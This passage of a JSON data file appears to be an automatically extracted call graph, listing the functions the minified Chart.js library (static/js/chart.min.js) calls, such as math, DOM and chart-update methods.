{"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "easeInOutElastic"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "easeInBack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "easeOutBack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "easeInOutBack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "easeOutBounce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "easeOutBounce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "easeInBounce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "easeOutBounce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "oblique"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPropertyValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPropertyPriority"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stringify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stringify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "findIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "findIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getSortedVisibleDatasetMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "inRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "inRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getCenterPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isPointInArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "inRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "index"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getSortedVisibleDatasetMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "dataset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "nearest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "acquireContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "releaseContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDevicePixelRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMaximumSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isAttached"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "acquireContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "observe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "observe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "observe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "acquireContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "releaseContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDevicePixelRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMaximumSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isAttached"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "color"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "hexString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "active"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "tick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "tick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_easing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_fn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "wait"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getOwnPropertyNames"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_animateOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_createAnimations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "active"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "all"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_createAnimations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cancel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_createAnimations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getSortedDatasetMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "initialize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "initialize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "linkScales"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isPluginEnabled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "linkScales"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getScaleForId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getScaleForId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getScaleForId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getScaleForId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getScaleForId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getScaleForId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getOtherScale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_dataCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isExtensible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_dataCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildOrUpdateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_dataCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resyncElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "datasetScopeKeys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getOptionScopes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "createResolver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseArrayData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseObjectData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parsePrimitiveData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parsePrimitiveData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseArrayData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseObjectData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "applyStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateRangeFromParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMinMax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getOtherScale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getUserBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateRangeFromParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateRangeFromParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getAllParsedValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMaxOverflow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelAndValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMaxOverflow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDatasetElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": 